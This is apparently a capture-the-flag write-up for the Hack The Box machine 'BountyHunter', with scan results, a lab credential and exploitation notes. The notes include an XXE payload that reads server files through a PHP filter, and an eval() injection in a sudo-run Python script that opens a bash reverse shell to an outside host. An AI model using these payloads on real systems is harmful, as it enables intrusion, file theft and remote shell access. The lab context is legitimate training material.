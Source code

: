 # BountyHunter

| Name      | IP           | Difficulty | OS    |
| --------- | ------------ | ---------- | ----- |
| bountyhunter | 10.10.11.237 | Easy       | Linux |

## NMAP

| HOST                            | PORT | PROTO | SERVICE      | VERSION                 |
| ------------------------------- | ---- | ----- | ------------ | ----------------------- |
| 10.10.11.100 (bountyhunter.htb) | 22   | tcp   | OpenSSH      | 8.2p1 Ubuntu 4ubuntu0.2 |
| 10.10.11.100 (bountyhunter.htb) | 80   | tcp   | Apache httpd | 2.4.41                  |

## HEADERS

```
HTTP/1.1 200 OK
Date: Sun, 09 Jul 2023 16:43:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
```

## DIRECTORIES

- /js  
- /index.php
- /css 
- /db.php
- /assets
- /resources 
- /portal.php
- /server-status

## USERS

- development:m19RoAU0hP41A1sTsq6K

## NOTES

* `/log_submit.php`
* Disable 'test' account on portal and switch to hashed password. Disable nopass. in http://bountyhunter.htb/resources/README.txt
* logsubmit vulnerable to XXE
* /etc/passwd works but php files return empty, need a php filter bypass
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```
* Reveals development password
* sudo -l `sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py`
* Ticket needs to look like this:
```
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**53+410+86**
##Issued: 2021/04/06
#End Ticket
```
- To be valid, when the first number is divided by 7 there needs to be a remainder of 4
* The script is vulnerable to `eval()` injection https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/
- Reverse shell `**53+410+86+__import__('os').system('bash -c "bash -i >& /dev/tcp/10.10.14.9/2222 0>&1"')**` 
